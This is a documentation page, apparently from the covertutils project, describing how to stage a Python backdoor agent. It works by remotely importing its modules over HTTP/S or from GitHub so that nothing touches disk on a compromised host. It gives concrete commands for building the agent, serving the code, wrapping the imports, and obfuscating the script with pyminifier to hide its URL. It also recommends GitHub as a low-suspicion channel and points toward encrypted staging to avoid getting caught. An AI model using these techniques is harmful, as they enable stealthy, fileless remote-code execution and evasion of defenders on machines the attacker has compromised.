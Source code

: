Staging Python code
===================


So, you coded the whole sophisticated backdoor, and it is like 500 Lines-of-Code. With 500 locs it must be a great, super stealth backdoor!

But now what? How do you pack the *Agent* with the whole ``covertutils`` package, to a single Python file?

After some research you could find some solutions. Most of them working.

	- Stickytape_
	-	`The __main__.py Zip archive trick`__
	- ... all kinds of StackOverflow_ questions ...

.. _Stickytape : https://github.com/mwilliamson/stickytape
.. _ziptrick : http://blog.ablepear.com/2012/10/bundling-python-files-into-stand-alone.html
.. _StackOverflow : https://stackoverflow.com/search?q=python+single+script

__  ziptrick_


The problem with them is that they **all require something to be written to disk**.



Step Zero - The httpimport_ module
+++++++++++++++++++++++++++++++++++++

For this purpose I authored the ``httpimport`` module. This module enables a Python script to **remotely import any module or package** through HTTP/S.

It resides in my Github_, where you can find both *documentation* and *usage examples*. It is a single file module, the ``httpimport.py``, which is also *Py2/3 compatible* - just for the hell of it.

.. _Github : https://github.com/operatorequals/httpimport
.. _httpimport : https://github.com/operatorequals/httpimport


Step One - Code *CopyPasta*
+++++++++++++++++++++++++++

Given that the ``unstaged_agent.py`` is the file that contains the awesome 500 loc *Agent* that uses `covertutils`. Execute the following:

.. code :: bash

	curl https://raw.githubusercontent.com/operatorequals/httpimport/master/httpimport.py | sed 's#log.*#pass#g' | grep -v "import pass" > staged_agent.py
	cat unstaged_agent.py >> staged_agent.py

Now the ``staged_agent.py`` consists both of a copy of the ``httpimport`` module and the awesome super cool 500 loc ``covertutils`` *Agent*

.. note ::
	The ``sed`` and ``grep`` magic ensures that all log lines of ``httpimport`` (containing strings) are replaced with ``pass``. This way the script can be further minified.

Step Two - Create a *Python HTTP/S Repo*
++++++++++++++++++++++++++++++++++++++++

Follow instructions in ``httpimport`` README file for that.
Generally it can be summed up to a :

.. code :: bash

	$ python -m SimpleHTTPServer

in the directory where the ``covertutils`` package is available.

.. warning :: **Implications**

	This Server must work from a host which is *HTTP/S accessible to the compromised machine* (the one where the *Agent* will run on).

Note the ``IP`` and ``PORT`` of the ``SimpleHTTPServer``.


Step Three - Wrap ``import`` statements
+++++++++++++++++++++++++++++++++++++++

Assemble the HTTP/S URL of the *Python HTTP/S Repo* like:

.. code ::

	http://server_ip:server_port/

Skim through the code in ``staged_agent.py`` and wrap every ``covertutils`` import block of code with a ``with`` statement as follows :

.. code :: python

	from covertutils.handlers import InterrogatingHandler, FunctionDictHandler
	from covertutils.handlers.impl import StandardShellHandler
	from covertutils.orchestration import StegoOrchestrator
	from covertutils.datamanipulation import asciiToHexTemplate

has to become:

.. code :: python

	with remote_repo(["covertutils"], "http://localhost:8000/") :
		from covertutils.handlers import InterrogatingHandler, FunctionDictHandler
		from covertutils.handlers.impl import StandardShellHandler
		from covertutils.orchestration import StegoOrchestrator
		from covertutils.datamanipulation import asciiToHexTemplate


If you come up with a script for this (entirely possible and funny task) please open a *Github Issue*! Or simply *Pull Request* it - it's already accepted!


.. note ::

	If ``covertutils`` is the only module that you want to *remotely import* you can use Github as the *Python HTTP/S Repo*!
	Just use the ``github_repo`` *context* of ``httpimport`` instead of ``remote_repo``:

	.. code :: python

		with github_repo( 'operatorequals', 'covertutils' ) :
			from covertutils.handlers import InterrogatingHandler, FunctionDictHandler
			from covertutils.handlers.impl import StandardShellHandler
			from covertutils.orchestration import StegoOrchestrator
			from covertutils.datamanipulation import asciiToHexTemplate

	This will ensure that you get the last ``covertutils`` running on the compromised host,
	as well as a not suspicious TLS connection to a **well-known website**! Reputation of Github is too damn high!



Step Three *'n' a half* - Obfuscation
+++++++++++++++++++++++++++++++++++++

Pyminify_ the ``staged_agent.py``. You have a *URL* in there. At least make it difficult to see with ``strings``!


You can try:

.. code :: bash

	pyminifier --obfuscate-builtins --obfuscate-classes --obfuscate-variables staged_agent.py > staged_agent.min.py


This step is **really usefull** as it will remove all comments and License strings, making the code *smaller* and *unreadable* (but functional).

It is also useful to use a ``--gzip``/``--bzip2`` argument as well, to mangle all ``strings`` and minify *even more*!

Check the ``wc`` output (byte size in third column) of the ``gzip`` against ``plain`` outputs:

.. code :: bash

	$ pyminifier  --obfuscate-builtins --obfuscate-classes --obfuscate-variables staged_agent.py > staged_agent.min.py
	$ wc staged_agent.min.py
	 188  381 4402 staged_agent.min.py
	$
	$ pyminifier --gzip --obfuscate-builtins --obfuscate-classes --obfuscate-variables staged_agent.py > staged_agent.min.gzip.py
	$ wc staged_agent.min.gzip.py
	   4    9 2461 staged_agent.min.gzip.py


.. _Pyminify : http://liftoff.github.io/pyminifier/


Step Four - Pack it to an executable *(or not)* / **Use it**
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

The ``staged_agent.min.py`` will remotely load all needed ``covertutils`` modules using an HTTP/S connection to the URL specified.
It doesn't contain any ``covertutils`` code by itself.
No code will be written to disk. **Not even Temporary files**. You can audit the ``httpimport`` module. It contains *no IO system calls*.

So packing to EXE and ELF should work without much hassle, as described in :ref:`native_execs_page`.
Dropping it to a *Python shell* or a *Python command injection* should work as well.



Step FIVE - Improvise
+++++++++++++++++++++

Passing code back and forth with HTTP/S is not really bright - even if it works.
In case the code gets intercepted, it can be inspected (apart from changed). If the *code gets caught*, **we get caught**.

But the code can be **encrypted**!

And encrypted with ciphers found in ``covertutils.crypto.keys``. It can also be signed with scrambling algorithms in ``covertutils.crypto.algorithms``.

And those subpackages can be loaded remotely too. Or minified and used on-the-spot.

The road for a **Staging Protocol** is *Open*. And an HTTP/S proxy which
automatically **obfuscates-encrypts-signs** all requests for Python code wouldn't be so difficult, using only ``covertutils`` as a dependency.
It would also work with ``httpimport`` out-of-the-box!

Wouldn't it be elegant...

